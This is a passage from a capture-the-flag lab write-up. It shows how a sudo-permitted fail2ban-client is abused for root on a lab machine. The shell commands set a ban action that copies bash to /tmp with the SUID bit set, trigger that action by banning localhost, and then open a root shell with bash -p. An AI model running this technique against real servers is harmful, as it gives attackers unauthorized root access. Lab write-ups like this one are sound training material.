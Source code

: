 ## Fail2Ban
Okay so what is `Fail2Ban`? It's an open-source intrusion prevention software that protects Linux servers from malicious attacks, **particularly brute-force attacks**. Hmm, maybe that's why the room said bruteforcing was not allowed. Okay so upon looking up its basic functionality, we find that we can configure an action it does upon successfully blocking something.

### Abusing Fail2Ban

Upon checking the manual pages we find this interesting option:
```shell
$ fail2ban-client set <JAIL> action <ACT> actionban <ACT> <COMMAND>
```
This configures the command to execute if certain action is executed on the specified service. We can try to add the "action" into the configuration file of the application, but we can rather directly type the command on the command-line. My action plan is to copy `bash` to a temporary directoy and setting SUID bit on itself to gain privileged shell.

In order to do that we can:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client restart
<g/lib/icepay$ sudo /usr/bin/fail2ban-client restart
Shutdown successful
Server ready
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/usr/bin/cp /bin/bash /tmp && chmod 4755 /tmp/bash"
/usr/bin/cp /bin/bash /tmp && chmod 4755 /tmp/bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
<o /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls -l /tmp
ls -l /tmp
total 1208
-rwsr-xr-x 1 root root 1234376 May 21 13:19 bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$
```

And with that we got a SUID bash ready to be executed!

## Privilege Escalation

Simply executing this `bash` with the `-p` flag will give us a privileged shell with which we can read root flag.

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ /tmp/bash -p
bash-5.1# id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) groups=1001(asterisk)
bash-5.1# cat /root/root.txt
THM{33...REDACTED...60}
bash-5.1#
```
